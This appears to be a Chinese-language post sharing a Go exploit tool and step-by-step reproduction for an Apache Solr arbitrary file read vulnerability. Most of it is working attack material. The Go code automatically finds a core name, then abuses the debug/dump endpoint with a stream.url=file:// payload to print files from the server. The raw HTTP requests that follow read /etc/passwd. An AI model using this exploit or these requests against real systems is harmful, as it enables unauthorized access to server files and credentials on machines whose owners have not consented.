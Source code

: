 ### 工具

下载地址：https://github.com/yuyan-sec/Poc-Project/tree/main/solr

写了一个小工具，运行效果如下

![img](https://mmbiz.qlogo.cn/mmbiz_png/MZzibwD3j5oGWgchR42adxSdllxLwEtqmV3ia1KGA8aM8BGBjXs17OM1nmFdUPCJPCLmtmtZURPoMqw2QuLT1TDw/0?wx_fmt=png)

辣鸡代码

```go
package main

import (
	"fmt"
	"net/http"
	"io/ioutil"
	"crypto/tls"
	"time"
	"regexp"
	"strings"
	"flag"
)

var t = &http.Transport{
    TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
}

var c = &http.Client{
    Transport: t,
    Timeout:   5 * time.Second,
}

func main(){

	var host, file string
	flag.StringVar(&host,"u","","URL : http://127.0.0.1")
	flag.StringVar(&file,"f","","File: /etc/passwd")
	flag.Parse()

	if host == "" || file == ""{
		fmt.Println(`
███████╗ ██████╗ ██╗     ██████╗ 
██╔════╝██╔═══██╗██║     ██╔══██╗
███████╗██║   ██║██║     ██████╔╝
╚════██║██║   ██║██║     ██╔══██╗
███████║╚██████╔╝███████╗██║  ██║
╚══════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝
Apache Solr 任意文件读取  BY:T9Sec     
`)
	}else{
		poc(host,file)
	}
	
}


func poc(url , payload string){
    
    url = strings.TrimRight(url,"/")
    geturl := url+"/solr/admin/cores?indexInfo=false&wt=json"

    req, err := http.NewRequest("GET", geturl, nil)
    if err != nil {
        return
    }
    req.Header.Add("User-Agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36")
    
    r, err := c.Do(req)
    if err != nil {
        return
    }
    defer r.Body.Close()
    body, err := ioutil.ReadAll(r.Body)
    if err != nil {
        return
    }

    if r.StatusCode == 200{
    	result := string(body)
	    reg := regexp.MustCompile(`"name":"(?s:(.*?))"`)
	    name := reg.FindAllStringSubmatch(result,-1)
	    path := name[0][1]
	    
	    exp(url,path,payload)
    }else{
    	fmt.Println("fail");
    }
    
}

func exp(url, path, payload string){
	url = url+"/solr/"+path+"/debug/dump?param=ContentStreams"
	payload = "stream.url=file://"+payload

    r, err := c.Post(
		url,
		"application/x-www-form-urlencoded",
		strings.NewReader(payload))
    if err != nil {
        return
    }
    defer r.Body.Close()
    body, err := ioutil.ReadAll(r.Body)
    if err != nil {
        return
    }
    
    if r.StatusCode == 200{
	    result := string(body)
	    reg := regexp.MustCompile(`"stream":"(.*?)"`)
	    name := reg.FindAllStringSubmatch(result,-1)
	    fileText := name[0][1]

	    fmt.Println(strings.Replace(fileText,"\\n","\n",-1))
	}else{
    	fmt.Println("fail");
    }
}
```

### 复现过程

1、先访问获取一个 name

```
http://127.0.0.1/solr/admin/cores?indexInfo=false&wt=json
```

![img](https://mmbiz.qlogo.cn/mmbiz_png/MZzibwD3j5oGWgchR42adxSdllxLwEtqm0uKAP5mKicQtFPRJdGOJVGcKHkInh5hRBPWFWFSNwEIaPRVw2141Zgg/0?wx_fmt=png)

2、读取文件

```
POST /solr/输入上面获取到的name作为目录/debug/dump?param=ContentStreams HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

stream.url=file:///etc/passwd
```

![img](https://mmbiz.qlogo.cn/mmbiz_png/MZzibwD3j5oGWgchR42adxSdllxLwEtqmVph4y88wm3HiaPCgCBDzC9bUn4FkoRBH32KrF00On2qBiaialprvAwhhg/0?wx_fmt=png)
